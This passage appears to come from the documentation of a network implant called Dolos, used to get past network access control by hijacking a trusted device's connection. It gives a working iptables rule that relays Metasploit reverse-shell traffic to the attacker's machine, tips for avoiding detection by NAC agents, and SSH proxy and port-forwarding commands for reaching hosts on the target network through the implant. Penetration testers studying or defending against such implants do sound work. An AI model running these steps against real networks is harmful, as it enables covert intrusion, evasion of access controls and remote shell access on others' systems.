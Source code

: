 ```

It's basically the same rule but with a 'D' flag to delete instead of an 'A' flag to add.

##### WARNING:

Some NAC products use agents on endpoints to periodically authenticate them. These agents may be running on common ports like 80, 443, 8080, etc. If you capture those packets instead of letting them traverse the NAT, you could get burned. Therefore, it is recommended that you do not perform packet capture or relay attacks for extended periods of time.

#### Reverse Shells

Similar to the packet capture and relay attack setup, you can add an iptables rule to capture reverse shell traffic. Let's say your laptop/VM has the Dolos management network address 172.31.255.3 and you have a classic Metasploit HTTPS listener binding port 4444. To get shells, redirect traffic destined for TCP 4444 back to your host:

```
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 4444 -j DNAT --to 172.31.255.3:4444
```

Q: But what do I set as LHOST?
A: The IP of the trusted device that you hijacked the network connection from! That's the location other devices on the network can use to send packets your way.

You *could* also bind a port on the bridge interface and send the traffic to 169.254.66.77 if you wanted to get the shell back directly to the Dolos device. But again, it is generally better to treat the attacking device like a router instead.

#### Snapback

Snapback is pretty resource intensive and will likely not perform well, if at all, running on the NanoPi hardware. Instead, run Snapback on your laptop/VM, set up a SOCKS5 proxy through your Dolos device and add the proxy as a setting in you Snapback UI:

```
ssh -D 8080 root@172.31.255.1
```

The proxy setting should then be:

```
socks5://localhost:8080
```

#### RDP

To RDP to a device on the target network, simply set up port forwarding and RDP to your localhost:

```
ssh -L 3389:target.host.ip.addr:3389 root@172.31.255.1 
```

Then RDP to your localhost and the traffic will be routed to your target host through the SSH tunnel.

#### FTP

Filezilla and other FTP clients support SOCKS5 proxies. Set up a proxy on port 8080 with the following command:

```
ssh -D 8080 root@172.31.255.1
```

```